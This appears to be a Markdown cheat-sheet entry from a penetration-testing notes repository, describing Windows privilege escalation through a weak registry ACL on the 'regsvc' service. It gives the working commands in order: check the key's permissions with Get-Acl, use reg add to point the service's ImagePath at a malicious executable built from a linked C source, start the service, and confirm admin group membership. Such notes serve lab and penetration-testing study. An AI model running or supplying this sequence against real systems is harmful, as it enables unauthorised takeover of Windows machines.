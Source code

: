 # regsvc ACL privesc
Enumeration using PowerShell:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsrv | fl
```
Check the output for 'NT AUTHORITY\INTERACTIVE' has 'Allow FullControl'<br>
Create a malicious service:<br>
https://github.com/sagishahar/scripts/blob/master/windows_service.c<br>
Install the malicious executable:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsrv /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
Restart
```
sc start regsvc
```
Confirm
```
net localgroup administrators
```
